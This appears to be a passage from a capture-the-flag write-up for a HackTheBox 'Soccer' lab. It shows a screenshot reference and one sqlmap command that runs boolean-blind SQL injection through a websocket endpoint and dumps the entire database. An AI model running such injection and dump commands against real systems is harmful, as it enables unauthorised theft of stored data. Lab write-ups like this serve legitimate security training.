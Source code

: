 ![image.png](/assets/images/Soccer_HTB/image%2017.png)

Now what we can do here is dump all the data using the —dump-all command in **sqlmap**.

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data {"id":"*"} --level=5 --risk=3 --technique=B --dump-all --threads 10
```
